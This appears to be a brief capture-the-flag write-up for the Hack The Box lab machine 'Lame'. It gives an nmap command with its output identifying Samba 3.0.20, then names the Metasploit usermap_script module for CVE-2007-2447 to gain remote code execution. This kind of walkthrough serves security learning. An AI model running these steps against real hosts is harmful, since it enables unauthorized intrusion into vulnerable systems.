 # Lame Write-Up

Easy

Tags: 
`Easy`
`Internal`
`Network`
`SAMBA`
`Penetration Tester Level 1`
`Remote Code Execution`
`CVE-2007-2447`
`Public Vulnerabilities`
`CVE Exploitation`
`Security Tools`

## Intro

1. Use exploit/multi/samba/usermap_script

## Enumeration

### Port scanning

```
nmap -T4 -A -p 139,445 10.10.10.3 -Pn
```
```
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 2h07m57s, deviation: 2h49m43s, median: 7m56s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-01T05:37:54-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Exploit

search gg `samba 3.0.20 exploit`

```
use exploit/multi/samba/usermap_script
```

Set rhosts > run